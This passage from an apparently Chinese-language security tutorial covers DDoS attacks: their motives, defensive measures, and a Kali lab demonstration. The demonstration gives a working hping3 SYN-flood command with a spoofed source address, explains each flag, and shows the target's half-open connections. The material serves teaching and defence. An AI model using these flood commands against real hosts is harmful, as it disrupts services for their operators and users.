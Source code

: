 > * **应用层攻击**
>   ：针对特定应用的攻击，如 HTTP Flood，模拟正常用户请求造成服务崩溃。
>
> #### 作用
>
> * **服务中断**
>   ：使目标网站或服务无法正常运行，影响用户体验。
> * **勒索和敲诈**
>   ：攻击者可能利用 DDoS 攻击进行勒索，要求付款以停止攻击。
> * **分散注意力**
>   ：有时用于掩盖其他恶意活动，如数据泄露或入侵。
> * **政治或社会目的**
>   ：某些攻击可能出于政治、意识形态或社会动机。
>
> #### 防御措施
>
> * **带宽过剩**
>   ：确保有足够的带宽来处理意外的流量增加。
> * **多层防御策略**
>   ：使用防火墙、入侵检测系统、内容分发网络（CDN）等。
> * **攻击缓解服务**
>   ：使用专门的 DDoS 缓解服务和解决方案。
> * **应急计划**
>   ：制定应对 DDoS 攻击的计划和程序。

```bash
使用kali进行ddos攻击

例：
hping3 -I eth0 -a [伪装源地址] -S [目标地址] -p [端口] -i [发送间隔]
hping3 -I eth0 -a 192.168.10.99 -S 192.168.10.33 -p 80 -i u1000
-I eth0：这指定了使用的网络接口。在这个例子中，它使用 eth0 接口。
-a 192.168.10.99：这是源地址欺骗（spoofing）的选项。它告诉 hping3 伪装（spoof）源 IP 地址，使数据包看起来像是从 IP 地址 192.168.10.99 发出的。
-S：这指定了 TCP SYN 包的标志。SYN 表示这是一个连接建立请求，是 TCP 三次握手过程的第一部分。
192.168.10.33：这是目标 IP 地址。这个地址是 hping3 发送数据包的目标。
-p 80：这指定了目标端口。在这个例子中，它是端口 80，通常用于 HTTP 服务。
-i u1000：这设置了发送包之间的时间间隔。u1000 表示每个包之间的间隔是 1000 微秒（即 1 毫秒）。

```

> 测试攻击

```bash
# 攻击机
┌──(newrain㉿kali)-[~/Desktop]
└─$ sudo hping3 -I eth1 -a 192.168.75.133 -S 192.168.75.225 -p 80 -i u10
若登陆的是 root 用户就不用加 sudo
例如 ：hping3 -I eth1 -a 192.168.75.133 -S 192.168.75.225 -p 80 -i u10
# 靶机
## 可以看到已经会有大量的半连接 tcp 进程
[root@xa2401 ~]# ss -atn
State Recv-Q Send-Q Local Address:Port Peer Address:Port  
LISTEN 0 128 _:80 _:*  
SYN-RECV 0 0 192.168.75.225:80 192.168.75.111:1570  
SYN-RECV 0 0 192.168.75.225:80 192.168.75.111:17101  
SYN-RECV 0 0 192.168.75.225:80 192.168.75.111:17115

```

